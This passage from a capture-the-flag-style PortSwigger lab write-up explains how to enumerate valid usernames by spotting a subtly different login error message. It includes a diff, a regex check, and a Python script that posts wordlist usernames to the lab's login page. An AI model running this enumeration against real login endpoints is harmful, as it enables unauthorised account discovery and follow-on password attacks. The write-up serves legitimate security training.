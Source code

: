 This would ensure that I capture every difference. I copied the HTML from a request into a `sample.txt`.

However, this method didn't really work since each of the responses had a different ID for analytics purposes:

```
$ diff sample.txt out.txt  
10c10
<         <script>fetch('/analytics?id=3099042762')</script>
---
>         <script>fetch('/analytics?id=916324608')</script>
```

In this case, I opted to compare the error message of each file:

```
<p class=is-warning>Invalid username or password.
```

This can be done using a simple regex check to see if the string exists on the page:

```python
match = re.search(r'(Invalid username or password\.)', r.text)
if not match:
	print(f'[+] Found diff response using: {trial}')
	find_password(trial)
```

The above would return a different result for the `atlas` user, which I manually verified:

![](../../.gitbook/assets/portswigger-auth-writeup-image-10.png)

The above message does not have a fullstop, and as such I could find a valid user and solve the lab:

```python
import requests
import re
import sys
import itertools
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0abd00b00398cb7781d4614000ea00c6'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
cookies = {
	'session':'QvqnVhG9TBcT2TXbw18p5lp2oddBgqw1'
}
s = requests.Session()

def find_user():
	users = open('users.txt','r')
	for i in users:
		trial = i.rstrip('\n')
		login_data = {
			'username': trial,
			'password': 'test'
		}
		r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False)
		match = re.search(r'(Invalid username or password\.)', r.text)
		if not match:
			print(f'[+] Found diff response using: {trial}')
```